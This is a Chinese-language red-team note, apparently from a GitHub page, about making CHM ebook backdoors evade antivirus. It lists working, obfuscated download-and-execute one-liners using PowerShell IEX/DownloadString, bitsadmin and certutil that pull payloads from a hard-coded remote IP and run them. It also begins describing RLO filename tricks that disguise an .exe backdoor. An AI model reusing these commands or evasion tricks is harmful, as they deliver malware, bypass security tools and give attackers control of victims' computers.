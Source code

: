 ### 以上简单免杀思路

chm电子书免杀 

核心是下载文件，执行文件，上线

一般拦截：**调用** **文件**  （两个方面）

1、下载的后门文件取代（我们制作免杀的后门，**绕过文件拦截**）

2、混淆替换 powershell bitsadmin certutil（**绕过下载拦截**）

```
1、利用powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://47.94.236.117:84/a'))"

2、利用bitsadmin
bitsadmin /transfer 604c http://47.94.236.117:83/a %APPDATA%\604c.exe&%APPDATA%\604c.exe&del %APPDATA%\604c.exe

"c""e""r""t""u""t""i""l" -"u""r""l""c""a""c""h""e" -split -f http://47.94.236.117/5.exe c:/5.exe & c:/5.exe

powershell -NoExit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://47.94.236.117:84/a'')'.Replace('123','adString');IEX ($c1+$c2)"

copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe bypass.exe
.\bypass.exe "$a='IEX((New-Object Net.WebClient).DownloadString(''ht';$b='tp://xxx/hr.ps1''));';IEX ($a+$b)" 
```

## 后门猥琐操作与Office的CVE

### 后门后缀名操作

`.exe` 后缀很敏感 ，我们来操作一下 exe 后缀，此过程是混淆眼睛，不改变实质 `exe` 后缀

生成一个后门 `x.exe` ，重命名鼠标落在 x 与 pgj 中间 ，倒序显示文件名, 点击 `RLO`

<img src=".\图片\Snipaste_2023-01-02_21-32-01.png" alt="Snipaste_2023-01-02_21-32-01" style="zoom:80%;" />
